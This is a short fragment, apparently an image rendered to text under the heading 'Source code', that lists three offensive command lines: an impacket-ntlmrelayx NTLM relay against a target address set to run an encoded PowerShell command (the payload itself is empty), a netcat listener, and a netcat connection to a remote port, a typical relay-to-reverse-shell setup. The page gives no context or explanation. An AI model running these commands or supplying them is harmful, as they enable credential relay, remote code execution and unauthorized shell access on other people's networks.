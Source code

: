 sudo impacket-ntlmrelayx --no-http-server -smb2support -t 1.1.1.1 -c "powershell -enc "
---------------------------------------------------------------------
nc -nvlp 8080
---------------------------------------------------------------------
nc 1.1.1.1 5555
---------------------------------------------------------------------